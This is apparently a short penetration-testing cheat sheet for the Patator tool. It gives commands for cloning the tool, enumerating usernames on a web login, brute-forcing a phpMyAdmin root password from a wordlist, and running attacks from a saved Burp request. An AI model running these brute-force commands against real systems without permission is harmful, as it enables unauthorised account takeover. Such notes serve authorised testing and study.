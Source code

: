 ```
git clone https://github.com/lanjelot/patator && cd patator
```
#### Blind SQL injection
[[8._Blind SQL]]
#### Fuzz Get Request
```bash
python3 patator.py http_fuzz method=GET url="http://$TARGET/ajax.php?fun=login&username=FILE0&password=test" 0=users.txt -x ignore:fgrep='invalid user'
```
#### Fuzz Post Request
```bash
python3 patator.py http_fuzz url=http://$TARGET/phpmyadmin/index.php method=POST body='pma_username=root&pma_password=FILE0&server=1&lang=en' 0=passwords.txt follow=1 accept_cookie=1 -x ignore:fgrep='Cannot log in to the MySQL server'
```
#### Attack from Burp request
Place in your FILE placeholders where necessary.  Below, we see in the password field.
![[Pasted image 20220318104320.png]]
Right click > copy to file > "copy to file" as text file.
